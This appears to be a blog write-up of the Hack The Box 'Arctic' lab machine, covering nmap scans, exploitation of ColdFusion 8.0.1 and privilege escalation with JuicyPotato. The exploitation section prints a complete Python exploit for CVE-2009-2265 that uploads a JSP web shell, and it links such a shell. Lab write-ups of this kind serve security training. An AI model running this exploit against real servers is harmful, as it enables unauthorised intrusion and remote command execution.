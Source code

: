 Title: HTB Arctic box writeup
Tags: oscp, htb, coldfusion, juicypotato
Summary: Per ColdFusion aspera ad another empty outdated box
Date: 2020-10-13 21:50
Status: published

# Enumeration
Looks like we've got some ColdFusion there:
```text
    Nmap 7.80 scan initiated Thu Oct  8 22:46:43 2020 as: nmap -sS -p- -oA enum/nmap-ss-all 10.10.10.11
    Nmap scan report for arctic.htb (10.10.10.11)
    Host is up (0.062s latency).
    Not shown: 65532 filtered ports
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    8500/tcp  open  fmtp
    49154/tcp open  unknown
    Nmap done at Thu Oct  8 22:49:58 2020 -- 1 IP address (1 host up) scanned in 194.82 seconds
```

Scripted scan:
```text
    Nmap 7.80 scan initiated Thu Oct  8 22:51:06 2020 as: nmap -sC -A -T4 -p135,8500,49154 -oA enum/nmap-scAT4-open 10.10.10.11
    Nmap scan report for arctic.htb (10.10.10.11)
    Host is up (0.056s latency).
    PORT      STATE SERVICE VERSION
    135/tcp   open  msrpc   Microsoft Windows RPC
    8500/tcp  open  fmtp?
    49154/tcp open  msrpc   Microsoft Windows RPC
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: phone|general purpose|specialized
    Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
    OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
    Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    TRACEROUTE (using port 135/tcp)
    HOP RTT      ADDRESS
    1   56.97 ms 10.10.14.1
    2   59.28 ms arctic.htb (10.10.10.11)
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Thu Oct  8 22:53:40 2020 -- 1 IP address (1 host up) scanned in 154.11 seconds
```
Extensions and the error tend to prove hypothesis about ColdFusion instance:

![ColdFusion err](/cstatic/htb-arctic/appcfm-error.png)

# Exploitation
Coldfusion seems to be a bit laggy and this is annoying since it slows down the
whole process. It turned out that this deployment is vulnerable to ancient
CVE-2009-2265 and I managed to find some custom written python script to exploit
that instead of using metasploit. It was found somewhere on the HTB forums and
I just tuned it up a bit so that it use the name of the local file for uploaded one.
Here's the script:
```python
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/ColdFusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/ColdFusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys, os

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        filename = os.path.basename(sys.argv[4])
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        filename = os.path.basename(sys.argv[3])
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/ColdFusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'
print 'Base filename is {}'.format(filename)

try:
    req = requests.post(
        basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{}%00".format(filename),
        files={ 'newfile': ('sploit.txt', body, 'application/x-java-archive' )})
    print 'Base path is {}'.format(basepath)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at {}/userfiles/file/{}'.format(basepath, filename)
    else:
        print 'Failed to upload payload... {} {}'.format(str(req.status_code), req.reason)
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

The main caveat is that the uploaded JSP had to be less that 65535 bytes long,
otherwise it won't compile on the server and we will get a translation error
back while trying to run such a servlet.

So I uploaded 
[this shell](https://github.com/SecurityRiskAdvisors/cmd.jsp/blob/master/cmd.jsp),
hosted accompanying UI script on my machine and got web shell running:

![web shell](/cstatic/htb-arctic/webshell.png)

Obviously it's trivial to acquire an interactive shell from this, turned out
that ColdFusion has been running as some local user:

![user shell](/cstatic/htb-arctic/user-shell.png)

# Privilege escalation
So I decided to "try harder" with PE here, since I just watched tib3rius' course
about this on udemy. In general it seems that HTB boxes aren't much about PE
because they're pretty empty so PE relies on known exploits usually. This looks
exactly like such a case. The journey started with `winPEAS.bat` and some manual
enumeration and this resulted in nothing - the box is pretty empty. Next step
was to try some exploits suggested by `wes.py` and none of them worked well. One
was looking good, but failed to escalate privileges. I then remembered MS16-032
and tried it, but still vainly - for reason unknown it didn't work either, I
just wasn't able to catch a shell despite the fact that exploit reported success.
The only thing that worked was the JuicyPotato - flawlessly spawned SYSTEM shell:

![root shell](/cstatic/htb-arctic/root-shell.png)
